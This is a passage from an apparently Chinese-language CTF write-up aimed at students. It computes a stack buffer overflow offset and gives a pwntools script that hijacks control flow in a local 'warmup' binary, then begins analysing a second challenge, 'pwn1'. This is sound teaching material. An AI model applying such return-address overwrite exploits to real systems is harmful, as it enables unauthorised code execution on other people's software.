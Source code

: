 #### 计算偏移量

既然知道是栈溢出了，首先就要计算偏移量，v5从`[rbp-40h]`的地方开始，然后`[rbp]`处还有8个字节，所以构造的payload就应该是'a'\*0x40+'b'\*0x8+p64(想要劫持到的函数地址)，实现程序流劫持

#### Exploit

具体exp如下(因为我写exp的时候都是用的一个Demo.py，所以具体的实现过程只用看`# todo here`即可，这里只有两行)

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *

binary = './warmup'	#binary's name here
context.binary = binary		#context here
context.log_level='debug'
pty = process.PTY
p = process(binary, aslr = 1, stdin=pty, stdout=pty)	#process option here
'''
Host =
Port =
p = remote(Host,Port)
'''
elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\0'))
my_u32 = lambda x: u32(x.ljust(4, '\0'))
ub_offset = 0x3c4b30
codebase = 0x555555554000
#log.info("\033[1;36m" + hex(bin_addr) + "\033[0m")

# todo here
p.recvuntil('>')
p.sendline('a'*0x40+'b'*0x8+p64(0x40060d))

p.interactive()
```

后面的题就是想拿给18级做的了，19级能搭起前面这个题的环境还有成功复现就很不错了XD

### pwn1

#### 程序分析

![1W95Xq.png](https://s2.ax1x.com/2020/02/08/1W95Xq.png)

开启栈不可执行，没有canary、PIE

![1W9h1s.png](https://s2.ax1x.com/2020/02/08/1W9h1s.png)

先输入到`buf 0xA`字节，然后`read(0,&s1,0x100)`一个很明显的栈溢出，后面的ok和fail没什么用
